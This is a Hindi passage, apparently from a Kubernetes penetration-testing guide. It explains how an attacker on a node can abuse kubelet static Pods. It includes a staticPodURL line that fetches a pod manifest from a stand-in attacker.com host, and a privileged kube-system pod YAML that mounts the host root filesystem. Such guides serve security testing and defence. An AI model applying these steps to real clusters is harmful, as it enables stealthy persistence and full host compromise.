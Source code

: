 _Static Pods_ को एक विशेष नोड पर kubelet डेमन द्वारा सीधे प्रबंधित किया जाता है, बिना API सर्वर के उन्हें देखने के। Pods जो नियंत्रण विमान द्वारा प्रबंधित होते हैं (उदाहरण के लिए, एक Deployment); इसके बजाय, **kubelet प्रत्येक स्थिर Pod की निगरानी करता है** (और यदि यह विफल होता है तो इसे पुनः प्रारंभ करता है)।

इसलिए, स्थिर Pods हमेशा **एक Kubelet के साथ बंधे होते हैं** एक विशेष नोड पर।

**kubelet स्वचालित रूप से प्रत्येक स्थिर Pod के लिए Kubernetes API सर्वर पर एक मिरर Pod बनाने की कोशिश करता है**। इसका मतलब है कि एक नोड पर चलने वाले Pods API सर्वर पर दिखाई देते हैं, लेकिन वहां से नियंत्रित नहीं किए जा सकते। Pod नामों के साथ नोड होस्टनेम को एक अग्रणी हाइफ़न के साथ जोड़ा जाएगा।

{% hint style="danger" %}
**`spec` of a static Pod अन्य API वस्तुओं का संदर्भ नहीं दे सकता** (जैसे, ServiceAccount, ConfigMap, Secret, आदि। इसलिए **आप इस व्यवहार का दुरुपयोग करके वर्तमान नोड में एक मनमाना serviceAccount के साथ एक pod लॉन्च नहीं कर सकते** ताकि क्लस्टर को समझौता किया जा सके। लेकिन आप इसका उपयोग विभिन्न namespaces में pods चलाने के लिए कर सकते हैं (यदि किसी कारण से यह उपयोगी है)।
{% endhint %}

यदि आप नोड होस्ट के अंदर हैं, तो आप इसे **अपने अंदर एक स्थिर pod बनाने** के लिए बना सकते हैं। यह काफी उपयोगी है क्योंकि यह आपको **kube-system** जैसे एक अलग namespace में **एक pod बनाने** की अनुमति दे सकता है।

एक स्थिर pod बनाने के लिए, [**दस्तावेज़ एक बड़ी मदद हैं**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/)। आपको मूल रूप से 2 चीज़ों की आवश्यकता है:

* **kubelet सेवा** में या **kubelet config** में **`--pod-manifest-path=/etc/kubernetes/manifests`** पैरामीटर को कॉन्फ़िगर करें ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) और सेवा को पुनः प्रारंभ करें
* **`/etc/kubernetes/manifests`** में **pod definition** पर परिभाषा बनाएं

**एक और अधिक छिपा हुआ तरीका होगा:**

* **kubelet** कॉन्फ़िगरेशन फ़ाइल से **`staticPodURL`** पैरामीटर को संशोधित करें और कुछ ऐसा सेट करें `staticPodURL: http://attacker.com:8765/pod.yaml`। इससे kubelet प्रक्रिया एक **स्थिर pod** बनाएगी जो **निर्दिष्ट URL से कॉन्फ़िगरेशन प्राप्त करेगी**।

**उदाहरण** एक **pod** कॉन्फ़िगरेशन का जो **kube-system** में एक विशेषाधिकार pod बनाने के लिए है, [**यहां से**](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/) लिया गया है:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: bad-priv2
namespace: kube-system
spec:
containers:
- name: bad
hostPID: true
image: gcr.io/shmoocon-talk-hacking/brick
stdin: true
tty: true
imagePullPolicy: IfNotPresent
volumeMounts:
- mountPath: /chroot
name: host
securityContext:
privileged: true
volumes:
- name: host
hostPath:
path: /
type: Directory
```
### Pods हटाना + अस्थायी रूप से शेड्यूल न होने वाले नोड्स
